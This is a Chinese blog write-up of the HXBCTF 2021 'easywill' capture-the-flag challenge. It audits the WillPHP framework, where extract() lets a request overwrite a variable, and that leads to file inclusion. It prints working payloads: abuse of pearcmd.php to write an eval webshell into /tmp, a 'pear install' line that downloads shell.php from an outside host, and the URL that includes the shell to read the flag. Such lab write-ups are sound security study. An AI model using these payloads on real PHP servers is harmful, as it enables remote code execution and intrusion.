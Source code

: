 ```yaml
---
title: '[HXBCTF 2021]easywill'
date: 2024-11-05 16:42:15
tags: 
      - 框架
      - 漏洞
      - WILLPHP
categories: 刷题笔记
---
```


## [HXBCTF 2021]easywill

![image-20241105201715505](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411052017702.png)

这道题需要我们下载框架源码，自行修改审计，没找到2.1.5的源码，将就下用最新的吧

下面开始审计，修改app/controller/IndexController.php 的内容与题目给出的一致

![image-20241105202255324](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411052022391.png)

我们跟进assign函数

![在这里插入图片描述](https://img-blog.csdnimg.cn/5abb1a51625940888b5131ee3565370b.png)

然后继续跟进assign，到helper.php

![image-20241105202354160](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411052023228.png)

继续跟进到View.php

![image-20241105202419410](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411052024463.png)

我们退回到helper.php

再看view函数

![image-20241105202546466](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411052025496.png)

```
function view($file = '', $vars = []) {
	return \wiphp\View::fetch($file, $vars);//调用了View中的fetch方法
```

跟进到View..php

![image-20241105202655234](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411052026266.png)

```
public static function fetch($file = '', $vars = []) {
		if (!empty($vars)) self::$vars = array_merge(self::$vars, $vars);			
		$viewfile = self::getViewFile($file);
		if (file_exists($viewfile)) {
			array_walk_recursive(self::$vars, 'self::parseVars'); //处理输出
			define('__RUNTIME__', round((microtime(true) - START_TIME) , 4));	
			Template::render($viewfile, self::$vars);
		} else {
			App::halt($file.' 模板文件不存在。');
		}
	}
```

跟进**render**，进入**Tempate.php**

```
public static function renderTo($viewfile, $vars = []) {
		$m = strtolower(__MODULE__);
		$cfile = 'view-'.$m.'_'.basename($viewfile).'.php';
		if (basename($viewfile) == 'jump.html') {
			$cfile = 'view-jump.html.php';
		}
		$cfile = PATH_VIEWC.'/'.$cfile;
		if (APP_DEBUG || !file_exists($cfile) || filemtime($cfile) < filemtime($viewfile)) {
			$strs = self::compile(file_get_contents($viewfile), $vars);
			file_put_contents($cfile, $strs);
		}
		extract($vars); //将键值赋值给变量
		include $cfile;
	}
```

可以看到存在变量覆盖以及文件包含

所以这里构造

```php
Copyname=cfile & value=想写入的内容 即可形成文件包含漏洞
```

当我们开启远程debug后我们测试**?name=cfile&value=AAAA**，可以看到**$cfile=AAAA**

所以这里可以写入shell到tmp目录，关于**pearcmd.php**，可见[详解](https://blog.csdn.net/rfrder/article/details/121042290)

**出网的利用姿势**

```php
Copypear install -R /tmp http://xxxxxxx/shell.php
```

**不出网的利用姿势**

```php
Copypear -c /tmp/.feng.php -d man_dir=<?=eval($_POST[0]);?> -s
```

所以最终**payload**

```php
Copy?name=cfile&value=/usr/local/lib/php/pearcmd.php&+config-create+/<?=eval($_POST[0])?>+/tmp/aa.php
```

这里要千万注意，不能直接到url里构造，否则`<>`会被url编码，我们写的shell就不会被解析了，所以我们要移步到burp中写

![image-20241105215941014](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411052159044.png)

写入成功

![在这里插入图片描述](https://img-blog.csdnimg.cn/d171e80e41e84c878b57f44be693177d.png)

接着我们尝试执行phpinfo查看是否真正写入成功

```ruby
Copyhttp://53bb636f-9fbc-43f2-bd4a-be7c1efff83a.node4.buuoj.cn:81/?name=cfile&value=/tmp/aa.php
```

![image-20241105215918680](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411052159715.png)

可以看到，的确成功了，接着查看根目录下的文件

![image-20241105215911457](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411052159503.png)

看到flag文件，打开即可获得flag

![image-20241105215901903](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411052159238.png)

参考：https://www.cnblogs.com/phant0m/articles/16450670.html

https://blog.csdn.net/weixin_43610673/article/details/121369384

